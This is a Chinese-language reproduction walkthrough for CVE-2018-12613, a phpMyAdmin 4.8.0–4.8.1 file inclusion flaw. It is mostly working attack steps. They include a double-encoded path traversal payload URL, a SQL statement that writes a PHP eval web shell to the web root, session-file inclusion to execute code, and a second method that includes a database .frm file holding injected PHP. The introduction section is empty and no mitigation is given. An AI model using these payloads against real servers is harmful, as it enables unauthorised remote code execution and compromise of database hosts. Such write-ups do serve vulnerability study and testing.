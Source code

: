 ```yaml
---
title: （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞
id: zhfly3082
---
```


# （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

phpMyAdmin 4.8.0和4.8.1受到影响。

## 三、复现过程

首先需要登录phpmyadmin

### payload

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt 
```

![image](../img/925e9ac79c25fd3034b7b241f4a5bb60.png)

### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

```
SELECT '<?php phpinfo()?>' 
```

![image](../img/44a3dfdd24f48369be759fa7b754517c.png)

##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![image](../img/73f70f8f92ba0da3dd3e1d5d48b34493.png)

##### 补充代码

如果上述方法不行的话，则用以下代码

```
select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php' 
```

##### 3、访问：

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3 
```

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)

![image](../img/e38916db56e43583dd4e92792415b40b.png)

##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![image](../img/c7aa1d41ce09e49d792bd64d90118e6d.png)

##### 3、访问

```
http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm 
```

![image](../img/eb9281e87824fb9d8b4d92363b2b4ece.png)